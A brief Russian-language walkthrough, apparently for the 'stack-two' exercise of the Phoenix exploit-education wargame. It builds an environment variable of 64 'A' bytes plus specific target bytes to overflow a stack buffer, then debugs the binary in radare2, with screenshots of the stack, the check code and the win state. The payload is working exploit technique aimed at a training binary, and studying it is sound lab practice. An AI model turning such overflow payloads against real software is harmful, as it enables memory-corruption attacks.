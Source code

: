здесь необходимо создать переменную окружения 

export ExplotEducation=$(python3 -c "print('A'*64 + '\x0a\x09\x0a\x0d', end='')")

Запускаем радар2
r2 -d stack-two

стек до
![alt text](../images/stack-two/1.png)

после 
![alt text](../images/stack-two/2.png)

код проверки 
![alt text](../images/stack-two/3.png)

содержимое eax\
![alt text](../images/stack-two/4.png)

победа
![alt text](../images/stack-two/5.png)